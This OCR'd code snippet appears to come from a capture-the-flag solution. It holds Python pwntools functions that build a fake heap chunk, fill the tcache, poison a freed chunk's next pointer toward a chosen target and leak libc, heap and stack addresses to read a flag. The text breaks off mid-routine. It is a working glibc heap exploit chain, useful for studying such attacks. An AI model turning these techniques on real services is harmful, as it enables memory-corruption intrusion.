 ```python  
def create_fake_chunk_0x140(con: tube, base_address: int) -> None:  
   # allocate second Node object outside first big chunk  
   post_message(con, 100, 0, True, b"f"*(0x781*2+1))  
   post_message(con, 100, 0, True, b"f"*1001)  
   recv_message(con, 0)  
   recv_message(con, 0)

   post_message(con, 100, 0, True, b"f"*0x1e9)  
   post_message(con, 100, 1, True, b"f"*0x1e9) # first chunk split from the
big one

   # fill tcache  
   for _ in range(6):  
       post_message(con, 100, 0, True, b"f"*0x1e9)  
   for _ in range(7):  
       recv_message(con, 0)

   # unset previous in use flag and prepare fake chunk  
   change_fake_chunk(con, 0x40, base_address + 0x380, base_address + 0x380)

   # trigger merge  
   recv_message(con, 1)  
   print("fake chunk created")

def shrink_fake_chunk(con: tube, new_size: int) -> None:  
   post_message(con, 100, 0, True, b"f"*(0x138*2))  
   change_fake_chunk(con, new_size, 0)  
   recv_message(con, 0)  
   print(f"shrinked chunk to {new_size:x}")

def prepare_malloc_target(con: tube, target: int, size: int=0x140) -> None:  
   # allocate fake chunk  
   post_message(con, 100, 0, True, b"f"*((size-8)*2))

   # allocate + free other chunks  
   post_message(con, 100, 1, True, b"f"*((size-8)*2))  
   post_message(con, 100, 1, True, b"f"*((size-8)*2))  
   recv_message(con, 1)  
   recv_message(con, 1)

   # free fake chunk  
   recv_message(con, 0)

   # change next pointer of fake chunk  
   change_fake_chunk(con, size, target)  
   print("tcache prepared")

def leak_flag_part(first_part: bool) -> str:

   SIZE=0x70  
   if first_part:  
       SIZE = 0x80

   io = start()

   stack_pointer = leak_libc(io) + 0x10c*8  
   print(f"stack pointer at {hex(stack_pointer)}")

   heap_base = leak_heap(io)  
   chunk_3c1_content = heap_base + 0x16cd0  
   print(f"3c1 chunk at {hex(chunk_3c1_content)}")

   create_fake_chunk_0x140(io, chunk_3c1_content)
```